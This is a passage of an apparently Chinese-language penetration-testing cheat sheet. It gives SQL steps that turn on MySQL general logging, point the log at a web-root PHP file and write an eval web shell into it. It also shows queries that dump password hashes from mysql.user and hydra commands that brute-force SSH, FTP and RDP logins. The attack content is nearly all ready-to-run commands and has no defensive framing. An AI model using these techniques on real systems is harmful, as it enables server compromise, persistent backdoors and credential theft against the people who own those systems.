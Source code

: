 具体可以看这篇文章：[https://blog.zgsec.cn/archives/26.html](https://blog.zgsec.cn/archives/26.html)

1、查看 MySQL 版本

```sql
show variables like '%version%';
select version();      #这个只显示MySQL版本号
```

2、查看 `load_file()` 开启状态

```sql
show variables like '%secure%';       #这条可查看详细信息
show global variables like '%secure_file_priv%';
```

3、查看日志功能是否开启和对应目录

```sql
SHOW VARIABLES LIKE 'general%';
set global general_log = "ON";
set global general_log_file='/var/www/html/test.php';   #可以写入WebShell然后直接连接蚁剑

# 往日志里面写入 WebShell
select '<?php @eval($_POST['AabyssTeam']);?>';
# 此时已经写到 test.php 文件当中了，注意这个要知道网站的具体路径才可以实现
```

小技巧：获取 MySQL 账户和对应密码 Hash

```sql
# MySQL <= 5.6 版本
select host, user, password from mysql.user;

# MySQL >= 5.7 版本
select host,user,authentication_string from mysql.user;
```

#### 3.2.7 弱口令爆破

爆破 SSH 密码

```c
hydra -L 用户名字典.txt -P 密码字典.txt 目标IP地址 ssh
hydra -L 用户名字典.txt -P 密码字典.txt ssh://192.168.1.100
hydra -L 用户名字典.txt -P 密码字典.txt ssh://192.168.1.100 -s 40      //40 是⽬标服务开放的端⼝
```

爆破 FTP 密码

```c
hydra -L 用户名字典.txt -P 密码字典.txt 目标IP地址 ftp
hydra -L 用户名字典.txt -P 密码字典.txt ftp://192.168.1.100/
```

爆破 RDP 远程桌面密码

```c
hydra 目标IP地址 rdp -l administrator -P 密码字典.txt -V
```
